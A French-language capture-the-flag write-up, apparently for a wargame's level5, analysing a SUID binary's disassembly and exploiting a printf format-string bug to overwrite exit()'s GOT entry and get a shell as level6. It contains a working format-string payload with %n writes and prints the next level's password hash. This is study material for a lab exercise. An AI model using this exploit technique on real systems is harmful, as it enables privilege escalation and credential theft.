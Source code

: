 ## Analyse

- `ls -la`
  ```
  [...]
    -rwsr-s---+ 1 level6 users  5385 Mar  6  2016 level5
  [...]
  ```
    - On a un binaire appartenant a level6 dans le home avec les droits SUID.

- `./level5`
  ```
    
  ```
  - Le programme attend un input
    - `test`
      - `test`
    - Le programme affiche le paramètre qu'on lui donne

- `gdb level5`
  - `set disassembly-flavor intel`
  - `info function`
    ```asm
    [...]
      0x080484a4  o
      0x080484c2  n
      0x08048504  main
    [...]
    ```
    - on trouve une fonction n() et une fonction o() en plus du main
  - `disas main`
    ```asm
    Dump of assembler code for function main:
       0x08048504 <+0>:	push   ebp
       0x08048505 <+1>:	mov    ebp,esp
       0x08048507 <+3>:	and    esp,0xfffffff0
       0x0804850a <+6>:	call   0x80484c2 <n>
       0x0804850f <+11>:	leave
       0x08048510 <+12>:	ret
    End of assembler dump.
    ```
    - <+0> ... <+3>
      - Initialisation de la mémoire, alignement de la stack<br/><br/>
    - <+6>
      - Call la fonction n()<br/><br/>
    - <+11> ... <+12>
      - Réinitialisation de la mémoire, fin d'exécution<br/><br/>

  - `disas n`
    ```asm
    Dump of assembler code for function n:
       0x080484c2 <+0>:	push   ebp
       0x080484c3 <+1>:	mov    ebp,esp
       0x080484c5 <+3>:	sub    esp,0x218
       0x080484cb <+9>:	mov    eax,ds:0x8049848
       0x080484d0 <+14>:	mov    DWORD PTR [esp+0x8],eax
       0x080484d4 <+18>:	mov    DWORD PTR [esp+0x4],0x200
       0x080484dc <+26>:	lea    eax,[ebp-0x208]
       0x080484e2 <+32>:	mov    DWORD PTR [esp],eax
       0x080484e5 <+35>:	call   0x80483a0 <fgets@plt>
       0x080484ea <+40>:	lea    eax,[ebp-0x208]
       0x080484f0 <+46>:	mov    DWORD PTR [esp],eax
       0x080484f3 <+49>:	call   0x8048380 <printf@plt>
       0x080484f8 <+54>:	mov    DWORD PTR [esp],0x1
       0x080484ff <+61>:	call   0x80483d0 <exit@plt>
    End of assembler dump.
    ```
    - <+0> ... <+3>
      - Initialisation de la mémoire (libère 536 octets pour la stack)<br/><br/>
    - <+9> ... <+35>
      - Stocke dans eax la valeur de l'adresse 0x8049848 dans le data segment register
        - `x/s 0x8049848`
          - `0x8049848 <stdin@@GLIBC_2.0>:	 ""`
      - Stocke la valeur de eax (stdin) dans la stack (à esp + 8)
      - Stocke 0x200 (512) dans la stack (à esp + 4)
      - Fait pointer eax sur ebp - 520
      - Stocke eax (l'adresse ebp - 520) dans la stack (à esp)
      - Call fgets() avec les arguments stockés dans la stack<br/><br/>
    - <+40> ... <+49>
      - Fait pointer eax sur ebp - 520 => l'adresse du retour de fgets()
      - Stocke eax (l'adresse du retour de fgets()) sur la stack (à esp)
      - Call printf avec l'argument stocké sur la stack<br/><br/>
    - <+54> ... <+61>
      - Stocke 0x1 (1) sur la stack
      - Call exit() avec l'argument stocké sur la stack

  - `disas o`
    ```asm
    Dump of assembler code for function o:
       0x080484a4 <+0>:	push   ebp
       0x080484a5 <+1>:	mov    ebp,esp
       0x080484a7 <+3>:	sub    esp,0x18
       0x080484aa <+6>:	mov    DWORD PTR [esp],0x80485f0
       0x080484b1 <+13>:	call   0x80483b0 <system@plt>
       0x080484b6 <+18>:	mov    DWORD PTR [esp],0x1
       0x080484bd <+25>:	call   0x8048390 <_exit@plt>
    End of assembler dump.
    ```
    - <+0> ... <+3>
      - Initialisation de la mémoire (libère 24 octets pour la stack)<br/><br/>
    - <+6> ... <+13>
      - Stocke la valeur de 0x80485f0 sur la stack (à esp)
        - `x/s 0x80485f0`
          ```
          0x80485f0:	 "/bin/sh"
          ```
      - Call system() avec l'argument stocké sur la stack (à esp)
    - <+17> ... <+18>
      - Réinitialisation de la mémoire, fin d'exécution
    - <+18> ... <+25>
      - Stocke 0x1 (1) sur la stack
      - Call _exit() avec l'argument stocké sur la stack

## Exploit

Ni main() ni n() n'appellent o(), dommage car il nous pop un shell.
On remarque également qu'il n'y a pas de return(), uniquement des call à exit() donc inutile de réécrire l'eip on va sortir sans y passer.
Il va falloir remplacer l'adresse de la fonction exit() dans le Global Offset Table par l'adresse de la fonction o() pour avoir notre shell.


- `objdump -R level5`
 ```
   OFFSET   TYPE              VALUE
 08049814 R_386_GLOB_DAT    __gmon_start__
 08049848 R_386_COPY        stdin
 08049824 R_386_JUMP_SLOT   printf
 08049828 R_386_JUMP_SLOT   _exit
 0804982c R_386_JUMP_SLOT   fgets
 08049830 R_386_JUMP_SLOT   system
 08049834 R_386_JUMP_SLOT   __gmon_start__
 08049838 R_386_JUMP_SLOT   exit
 0804983c R_386_JUMP_SLOT   __libc_start_main
 ```
 - l'adresse d'exit dans le GOT est `08049838`
- `gdb level5`
  - `info function o`
    ```
    All functions matching regular expression "o":

    Non-debugging symbols:
    0x080483c0  __gmon_start__
    0x080483c0  __gmon_start__@plt
    0x08048420  __do_global_dtors_aux
    0x080484a4  o
    0x080485a0  __do_global_ctors_aux
    ```
    - l'adresse de o() est 0x080484a4

- `python -c 'print "AAAA" + "%x " * 10' | ./level5`
```
AAAA200 b7fd1ac0 b7ff37d0 41414141 25207825 78252078 20782520 25207825 78252078 20782520
```
- on commence a lire notre format string dans la stack au 4eme argument donné à print, donc on devrait pouvoir accéder à notre adresse:
  - `python -c 'print"\x38\x98\x04\x08 %4$p"' | ./level5"
    ```
    8 0x8049838
    ```

On va à nouveau se servir du modifier %n pour écrire l'adresse de o() dans l'adresse du exit(), pour ca on va mettre autant de padding que la représentation en int de o(), moins 4 octets pour l'adresse de exit():
- `python -c 'print"\x38\x98\x04\x08%1$" + str(int(0x080484a4) - 4) + "d%4$n"' > /tmp/exploit`
- `cat /tmp/exploit - | ./level5`<br/>
  <img src="https://vignette.wikia.nocookie.net/spongebob/images/f/f7/Two_hours_later.jpg/revision/latest?cb=20101111022814" style="width: 350px;"/><br/>
  ```
                                    512
                  
  ```
  - `whoami`
    ```
    level6
    ```
  - `cat /home/user/level6/.pass`
    ```
    d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
    ```
